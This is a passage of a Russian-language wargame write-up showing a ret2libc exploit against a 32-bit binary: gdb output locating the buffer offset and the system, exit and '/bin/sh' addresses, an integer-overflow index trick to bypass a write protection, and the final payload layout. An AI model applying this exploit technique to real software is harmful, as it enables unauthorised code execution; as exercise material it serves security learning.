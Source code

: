 ```asm
Input command: store
 Number: 31
 Index: 1
 Completed store command successfully
Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) i r
eax            0xffffd4c4	-11068

```
- адрес буфера - 0xffffd4c4

- оффсет - 0xffffd68c - 0xffffd4c4 = 456 байт или 114 интовых чисел (456 / 4 = 114)

6. Теперь определим адреса system, exit, "bin/sh"

```asm
(gdb) p system
$5 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$6 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"

```

7. То есть нам нужно записать найденные адреса по индексу 114, 115, 116. Но есть нюанс. В программе все индексы, делящиеся на 3 без остатка
зарезервированы и недоступны для записи. То есть с сохранением данных по индексу 114 есть сложности.

- Попробуем воспользоваться переполнением интов и подобрать такое число, которое с учетом переполнения выведет нас на нужный индекс 114, и при этом 
при остатке деления на 3 не будет давать 0

max int = 2^32
index = (2^32 / 4) + 114 = 1073741938

1073741938 % 3 = 1 индекс не защищен. Бинго

6. Генерим итоговый эксплойт:
```
[ адрес system ] [ адрес of exit ] [ адрес "/bin/sh" ]
0xf7e6aed0           0xf7e5eb70             0xf7f897ec          # адрес
4159090384           4159040368             4160264172          # адрес в десятеричном виде
     |                     |                     |
1073741938              115                    116              # индекс
buffer[114]          buffer[115]            buffer[116]   

```
